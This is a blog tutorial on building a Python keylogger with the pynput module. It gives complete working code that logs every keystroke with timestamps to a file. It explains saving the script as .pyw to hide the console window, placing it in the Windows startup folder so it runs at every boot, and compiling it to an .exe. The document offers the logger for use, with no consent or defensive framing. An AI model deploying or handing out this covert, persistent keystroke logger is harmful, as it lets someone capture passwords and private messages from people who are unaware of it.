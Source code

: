title: "Python Keylogger"
date: 2017-12-15
category: YouTube
tags: [python, keyboard, logging, pynput]
feature: feature.jpg
description: "This is a Python keylogger which will work on Windows, Mac and Linux. This script uses the pynput module. This python keylogger will store typed keys in a file in order of when they were typed."

[TOC]

{% with video_id="x8GbWt56TlY" %}{% include 'blog-post-embedYouTube.html' %}{% endwith %}

## PIP
If you haven't used or setup pip before, go to my tutorial at [how-to-setup-pythons-pip]({{ url_for('blog_post', path='how-to-setup-pythons-pip') }}) to setup pip. This is needed to install pynput to get keys typed.

## Installing Pynput
We will be using the pynput module to listen to mouse events. To install this module execute ```pip install pynput``` in cmd. Watch the output to make sure no errors have occurred; it will tell you when the module has been successfully installed.

![Installing pynput](/posts/how-to-get-mouse-clicks-with-python/pynput1.png)

To double-check that it was installed successfully, open up IDLE and execute the command ```import pynput```; no errors should occur.

![Testing pynput](/posts/how-to-get-mouse-clicks-with-python/pynput2.png)

## Building the Keylogger
Create a new Python file and import Key and Listener from pynput.keyboard and the logging module.

```python
from pynput.keyboard import Key, Listener
import logging
```

Next set a variable which points to where you want to save the logs; leave this as an empty string to save the log beside the python script. Then set up the logging module as shown below.

```python
log_dir = ""

logging.basicConfig(filename=(log_dir + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')
```

Then create a definition for keypresses called on_press which takes key as a parameter. In this definition, we want to log the key using the logging info method. The key will need to be casted to a string before logging it.

```python
def on_press(key):
    logging.info(str(key))
```

Next setup an instance of Listener and define the on_press method in a `with` statement and then `.join()` the thread to the main thread.

```python
with Listener(on_press=on_press) as listener:
    listener.join()
```

Now save the file with a .pyw file extension to make sure that the console doesn't appear when it's run.

![Save as .pyw](/posts/python-keylogger/pyw.png)

Run the script in IDLE to make sure that you haven't made any errors. Errors will show up in here if some do occur.

## Autostart
To make the script run on startup first go to your startup folder. Hold down the windows button and press "R" or type run in the windows menu to make the run dialog appear.

![shell:startup example](/posts/python-keylogger/run.png)

Now type ```shell:startup``` in the dialog and press enter. This will open a window at your startup folder.

Copy the keylogger into this folder and then create a new folder somewhere else for logs to be saved to. Make sure this folder is not in the startup folder or it will be opened every time the computer has started. Open the keylogger in IDLE and now change the log_dir to the location of the folder you just created. Make sure this folder path uses forward slashes ('/') and contains a forward slash at the end.

## Stopping the Keylogger
To stop the keylogger, open up task manager and look for anything named python as shown below due to windows just showing program names. If you have an older version of windows, I recommend looking for pythonw.exe. Right-click on this and end the task.

![Python in task manager](/posts/python-keylogger/taskmgr.png)

## Final Script
```python
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```

## Compile to EXE
Want to convert this .py to a .exe? Head over to my tutorial at [convert-py-to-exe]({{ url_for('blog_post', path='convert-py-to-exe') }}) to do it in a few easy steps. This tutorial also shows you how to remove the console that shows up, make one file executables and even add an icon.

Converting to .exe will allow the script to run on Windows computers without python installed (python is pre-installed on Mac and most Linux computers)

## Common Issues and Questions

### It doesn't work (general things to try)
Make sure you run the script in IDLE to check for errors you have made

### 'python' is not recognized as an internal or external command
Python hasn't been installed or it hasn't been installed properly. Go to [how-to-setup-pythons-pip]({{ url_for('blog_post', path='how-to-setup-pythons-pip') }}) and follow the tutorial. Just before you enter the scripts folder into the path variable, remove the "\scripts\" part at the end. You will also want to add another path with "\scripts\" to have pip.

### Where are the log files?
They will be located next to the python file (in the current directory for more advanced users). If it hasn't appeared, make sure you run the script in IDLE to check for errors you have made.

### ModuleNotFoundError/ImportError: No module named 'pynput'
Did you install pynput? This error will not occur if you installed it properly. If you have multiple versions of Python, make sure you are installing pynput on the same version as what you are running the script with.

### I got a SyntaxError
Syntax errors are caused by you and there is nothing I can offer to fix it apart from telling you to read the error. They always say where the error is in the output using a ^. Generally, people that get this issue have incorrect indentation, brackets in the wrong place or something spelt wrong. You can read about SyntaxError on Python's docs [here](https://docs.python.org/2/tutorial/errors.html#syntax-errors).

### How can I stop the listener?
As documented at [https://pythonhosted.org/pynput/keyboard.html](https://pythonhosted.org/pynput/keyboard.html) you can use pynput.keyboard.Listener.stop() to stop listening.

### "Open command window here" isn't shown when I shift right-click?
Make sure you are holding down shift. If you are using new versions of Windows, this has been replaced by "Open PowerShell Window Here". Using this method will work exactly the same for this tutorial; so go ahead and use PowerShell.
